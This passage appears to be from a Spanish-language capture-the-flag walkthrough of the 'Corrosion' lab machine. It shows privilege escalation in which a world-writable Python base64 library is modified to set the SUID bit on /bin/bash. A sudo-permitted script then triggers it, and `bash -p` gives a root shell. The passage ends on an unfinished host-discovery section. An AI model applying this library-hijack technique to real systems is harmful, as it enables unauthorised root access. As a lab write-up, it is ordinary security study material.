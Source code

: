 ```java
randy@corrosion:~$ locate base64
/home/randy/randombase64.py
/snap/core18/2128/usr/bin/base64
/snap/core18/2128/usr/lib/python3.6/base64.py
/snap/core18/2128/usr/lib/python3.6/__pycache__/base64.cpython-36.pyc
/usr/lib/python3.8/base64.py

randy@corrosion:~$ ls -la /usr/lib/python3.8/base64.py
-rwxrwxrwx 1 root root 20386 Sep 20  2021 /usr/lib/python3.8/base64.py
```
A la libreria `base64.py`, se puede agregar la libreria os, para agregar permisos suid de bash y que esto permita escalar privilegios mediante bash.

```java
import os
os.system("chmod u+s /bin/bash ")
```
Para realizar el cambio de los permisos se debe utilizar la instrucción `sudo /usr/bin/python3.8 /home/randy/randombase64.py`

```java
randy@corrosion:~$ ls -la /bin/bash 
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
randy@corrosion:~$ sudo randy@corrosion:~$ 
sudo: randy@corrosion:~$: command not found
randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
Enter your string: cualqi^H
Y3VhbHFpCA==
randy@corrosion:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
Una vez cambiado los privilegios se debe ejecutar `bash -p`, para que se ejecute con los privilegios de usuario root.
```java
randy@corrosion:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls -la
total 44
drw-------  5 root root 4096 Sep 20  2021 .
drwxr-xr-x 20 root root 4096 Sep 16  2021 ..
-rw-r--r--  1 root root    5 Sep 20  2021 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Aug 19  2021 .cache
drwxr-xr-x  3 root root 4096 Sep 16  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root    0 Sep 17  2021 .python_history
-rw-r--r--  1 root root   33 Sep 17  2021 root.txt
-rw-r--r--  1 root root   66 Sep 16  2021 .selected_editor
drwxr-xr-x  3 root root 4096 Sep 16  2021 snap
-rw-r--r--  1 root root  181 Sep 17  2021 .wget-hsts
bash-5.0# cat root.txt 
2fdbf8d4f894292361d6c72c8e833a4b
bash-5.0# 
```
## MAQUINA CORROSION1
---
### Hosts Discovery
#### Enumeración de hosts,usando hilos.
Existen varias formas de ejecutar el script utilizando hilos, una de ellas es utilizando el comando xargs que permite ejecutar un comando varias veces con diferentes argumentos.
Aquí hay un ejemplo de cómo podría modificar el script anterior para utilizar hilos con xargs: